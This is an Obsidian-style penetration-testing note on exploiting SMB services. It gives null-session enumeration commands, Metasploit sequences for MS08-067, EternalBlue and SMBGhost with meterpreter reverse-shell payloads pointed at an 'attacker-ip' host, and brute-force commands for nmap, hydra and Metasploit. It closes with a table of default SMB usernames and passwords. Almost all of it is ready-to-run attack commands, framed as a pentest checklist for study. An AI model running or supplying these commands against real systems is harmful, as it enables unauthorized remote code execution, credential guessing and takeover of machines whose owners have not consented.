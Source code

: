 ```yaml
---
id: Exploitation
aliases: []
tags:
  - Networking/Services/SMB/Exploitation
links: "[[SMB]]"
---
```


# Exploitation

<!-- Checklist {{{-->
## Checklist

- [ ] [[Enumeration#RPCclient|RPCclient]]
    - [ ] [[Enumeration#Connect|Connect]]
- [ ] [[Usage#Smbclient|Smbclient]]
    - [ ] [[Usage#Connect|Connect]]
        - [ ] [[Usage#Linux|Linux]]
        - [ ] [[Usage#Windows|Windows]]
    - [ ] [[Usage#SMB Actions|Enumeration]]

- [ ] [[Exploitation#Metasploit|Metasploit]]
    - [ ] [[Exploitation#CVE Exploits|CVE Exploits]]
- [ ] [[Exploitation#Common Credentials|Common Credentials]]
- [ ] [[Exploitation#Brute Force|Brute Force]]
- [ ] [[Exploitation#EternalBlue|EternalBlue]]

___

<!-- }}} -->

<!-- SMB Null Session {{{-->
## SMB Null Session

An [SMB Null Session](https://hackviser.com/tactics/pentesting/services/smb#smb-null-session)
refers to an unauthenticated connection to an SMB server

[[Enumeration#RPCclient|RPCclient]]

```sh
rpcclient -U "" <target>
```

[[Usage#smbclient|smbclient]]

```sh
smbclient -L //<target> -N
```

[[Enumeration#SMBmap|SMBmap]]

```sh
smbmap -H <target> -u "" -p ""
```

___

<!-- }}} -->

<!-- IPC$ Share {{{-->
## IPC$ Share

Access to the
[IPC$](https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-smb/index.html#ipc-share)
share can be obtained through an anonymous null session.

> [!todo]

[[Enumeration#Enum4Linux-ng|Enum4Linux-ng]] can be utilized to interact
with the exposed services via named pipes.

___

<!-- }}} -->

<!-- Metasploit {{{-->
## Metasploit

Search for exploits with Metasploit

```sh
msf> search type:exploit platform:windows target:2008 smb
searchsploit microsoft smb
```

### CVE Exploits

#### MS08-067 (Netapi)

> [!example]-
>
> ```sh
> use exploit/windows/smb/ms08_067_netapi
> set RHOSTS target.com
> set PAYLOAD windows/x64/meterpreter/reverse_tcp
> set LHOST attacker-ip
> exploit
> ```

#### MS17-010 (EternalBlue)

> [!example]-
>
> ```sh
> use exploit/windows/smb/ms17_010_eternalblue
> set RHOSTS target.com
> set PAYLOAD windows/x64/meterpreter/reverse_tcp
> set LHOST attacker-ip
> exploit
> ```

#### SMBGhost (CVE-2020-0796)

> [!example]-
>
> ```sh
> use exploit/windows/smb/cve_2020_0796_smbghost
> set RHOSTS target.com
> set PAYLOAD windows/x64/meterpreter/reverse_tcp
> set LHOST attacker-ip
> exploit
> ```

___

<!-- }}} -->

<!-- Brute Force {{{-->
## Brute Force

### Nmap

Brute force SMB login with [[Nmap]]'s
[smb-brute](https://nmap.org/nsedoc/scripts/smb-brute.html)

```sh
nmap --script smb-brute -p 445 <target> -oA smb-brute-force
```

Brute force SMB login with [[Nmap]] and custom credentials

```sh
nmap -p 445 --script smb-brute --script-args userdb=<users.txt>,passdb=<passwords.txt> <target> -oA smb-brute-force-custom-credentials
```

### Hydra

Brute force SMB login with [[Hydra]]

```sh
hydra -l <target_user> -P <passwords.txt> <target> smb -t 1
```

```sh
hydra -l administrator -P <passwords.txt> smb://<target>
```

### Metasploit

Brute force SMB login with [[Metasploit]]

<!-- Example {{{-->
> [!example]-
>
> 1. [[Metasploit#Search Exploit|Search Exploit]]
>
> 2. [[Metasploit#Select Exploit|Select Exploit]]
>
> ```sh
> use auxiliary/scanner/smb/smb_login
> ```
>
> 3. [[Metasploit#Set Option|Set options]]
>
> ```sh
> set RHOSTS target.com
> ```
>
> ```sh
> set USER_FILE /path/to/users.txt
> ```
>
> ```sh
> set PASS_FILE /path/to/passwords.txt
> ```
>
> ```sh
> set STOP_ON_SUCCESS true
> ```
>
> 4. [[Metasploit#Run Exploit|Run exploit]]
>
> ```sh
> exploit
> ```
<!-- }}} -->

___

<!-- }}} -->

<!-- Common Credentials {{{-->
## Common Credentials

> [!danger]-
>
> | Username             | Password                                |
> | -------------------- | --------------------------------------- |
> | (blank)              | (blank)                                 |
> | guest                | (blank)                                 |
> | Administrator, admin | (blank), password, administrator, admin |
> | arcserve             | arcserve, backup                        |
> | tivoli, tmersrvd     | tivoli, tmersrvd, admin                 |
> | backupexec, backup   | backupexec, backup, arcada              |
> | test, lab, demo      | password, test, lab, demo               |

___

<!-- }}} -->

<!-- EternalBlue {{{-->
## EternalBlue

Some SMB versions may be vulnerable to RCE exploits such as
[EternalBlue](https://www.avast.com/c-eternalblue).

Metasploit has several [modules](https://www.rapid7.com/db/modules/exploit/windows/smb/ms17_010_eternalblue/)
for EternalBlue that can be used to validate and exploit the vulnerability.

```sh
nmap -A -p445 <target>
```

___

<!-- }}} -->
